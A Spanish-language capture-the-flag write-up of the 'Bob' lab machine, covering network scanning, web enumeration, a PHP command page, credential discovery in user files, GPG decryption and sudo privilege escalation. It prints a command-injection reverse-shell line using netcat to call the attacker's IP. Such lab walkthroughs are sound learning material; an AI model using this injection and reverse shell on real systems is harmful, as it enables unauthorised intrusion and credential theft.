 ## *Reconocimiento*

Identificamos la red con `netdiscover` para poder encontrar alguna red. Encontramos la IP 192.168.1.211, también sabemos que el sistema operativo es Linux.

![alt text](../image/bob1.png)

Ya una vez identifico la red a la cual voy a trabajar con nmap para saber que puertos pueden estar abiertos.

![alt text](../image/bob2.png)

Podemos ver que tenemos dos puertos abiertos, 80 HTTP, 25468 SSH, dentro del puerto 80 identificamos que manera una versión de Apache, esto puede servirnos más adelante, al mismo tiempo podemos ver los directorios que deberían estar ocultos.

![alt text](../image/bob3.png)

La pagina que tenemos es de una biblioteca de una escuela, aunque busqué en el código abierto no encontré nada que pudieran darme pistas de a donde tengo que ir... así que lo que sigue ahora es hacer una enumeración en la web.
Para la enumeración web trabajé con `dirb` y `gobuster` por si en alguna de los dos llegara a encontrar un directorio diferente, al trabajar con las dos encontré las mismas carpetas, así que investigaré el directorio Robots.txt y ver que puedo encontrar.

![alt text](../image/bob4.png)
![alt text](../image/bob5.png)

Dentro del directorio Robots.txt tenemos otros directorios que no encontramos en la enumeración, así que iré revisando para ver que información relevante se puede hallar.

![alt text](../image/bob6.png)

Decidí entrar en cada uno de los directorios pero en Login.php no me devuelve nada, ahora al utilizar el siguiente encuentro una pagina con una caja de texto y si opción de enviar, como ya vemos la pagina está hecha en php así que buscaré la manera de poder hacer una reverse … Por lo pronto dejaré anotado lo que espero hacer e iré mirando los demás directorios.

![alt text](../image/bob7.png)

En el directorio /passwords.html encontré un texto que dice lo siguiente.

![alt text](../image/bob8.png)

## *Análisis de Vulnerabilidades*

![alt text](../image/bob9.png)

Para esta ocasión utilizo metasploit para hacer de oyente al ejecutar un comando para hacer la reverse shell, iré haciendo los cambios pertinentes tanto en el shell de la web como en el metasploit.

![alt text](../image/bob10.png)
![alt text](../image/bob11.png)

Utilizo el siguiente comando para poder hacer la ejecucion y que funcione como lo espero, veré si funciona 

```bash
echo && nc 192.168.1.208 4444 -e /bin/bash
```

![alt text](../image/bob12.png)

Tenemos la sesión iniciada, ahora necesito trabajar con el shell interactivo, que se vea mas estético trabajar en la terminal.

## *Explotación*

![alt text](../image/bob13.png)

Una vez estamos en la shell comenzamos a buscar fuera del servidor web que podemos hallar, dentro del directorio Home puedo ver 4 usuarios
Entro a investigar dentro del usuario Bob y logro ver un archivo oculto llamado old_passwordfile.

![alt text](../image/bob14.png)
![alt text](../image/bob15.png)

Tomaré las contraseñas encontradas y las guardaré en una archivo aparte, verificaré si estas contraseñas todavía siguen en función.

![alt text](../image/bob16.png)

Vemos que dentro del mismo usuario Bob encontramos una carpeta tras otra que nos da como ultimo hallazgo un documento llamado notes.sh, a simple vista se ve como un chat normal pero las letras en mayúscula dan una palabra HARPOCRATES. 
Quise saber si había un significado para la palabra y encontré …  ` dios del silencio, los secretos y la confidencialidad en la religión helenística desarrollada en la Alejandría ptolemaica `  puede que esta palabra me sirve algún momento.

![alt text](../image/bob17.png)

Dentro de la carpeta documentos habían otros dos archivos, uno `login.txt.gpg` y `staff.txt` así que la curiosidad me mató y quise ver que había dentro de cada uno.

![alt text](../image/bob18.png)

Dentro del usuario Elliot podemos encontrar un texto relevante, en el resto de su domino no encontré nada que aportara.
En el texto podemos ver que nos terminan de confirmar que la contraseña de Jame es Qwerty y de paso también conocemos ahora la contraseña de elliot que es theadminisdumb.

![alt text](../image/bob19.png)

Estamos utilizando la herramienta de cifrado/descifrado gpg integrada. Le proporcionamos la frase de contraseña que encontramos y especificamos que queremos descifrar el archivo.
Pero antes de eso debemos tener acceso a un usuario, así que entramos con el perfil seb y su contraseña, luego de esto utilizamos la herramienta de cifrado y esta nos genera la contraseña de bob.

![alt text](../image/bob20.png)

## *Post-Explotación*

Realizamos un **sudo -l** para ver si Bob tiene acceso de root o comandos que puede usar.
Usando **sudo bash** obtenemos un shell raíz y luego navegamos al directorio **/** donde se encuentra el archivo flag.txt.

![alt text](../image/bob21.png)

Obtenemos la flag y con esto concluye la maquina.

![alt text](../image/bob22.png)
